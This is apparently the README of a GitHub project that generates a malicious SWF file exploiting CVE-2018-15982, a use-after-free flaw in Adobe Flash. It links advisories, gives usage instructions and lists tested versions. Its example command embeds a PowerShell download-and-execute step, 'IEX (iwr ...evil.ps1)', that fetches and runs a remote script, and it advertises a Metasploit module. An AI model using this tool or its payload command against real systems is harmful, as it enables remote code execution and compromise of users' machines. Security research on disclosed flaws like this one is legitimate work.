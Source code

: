 # Adobe Flash CVE-2018-15982

This script creates a swf payload for CVE-2018-15982, which is based off of the PoC from https://github.com/smgorelik/Windows-RCE-exploits.  The vulnerability was discovered by Chenming Xu and Ed Miles of Gigamon ATR.

The vulnerability is a use-after-free flaw enabling arbitrary code-execution in Flash.  More information can be found in the links below.

* https://threatpost.com/adobe-patches-zero-day-vulnerability-in-flash-player/139629/
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=2018-15982



Usage:

```python create_swf.py <command> <output file name>```

Example Usage:

```python create_swf.py "powershell.exe IEX (iwr 'http://192.168.56.101/evil.ps1')" downloadtest.swf```
  


Tested on: 
* Windows 10 Enterprise 10.0.17134, Internet Explorer 11.285.17134.0
* Adobe Flash Player 31.0.0.153, 29.0.0.140


## Example


Create payload:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/create.png)


Executing payload:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/exec31.png)

Confirm execution:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/confirm31.png)

## Metasploit Module

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/metasploit-module.png)


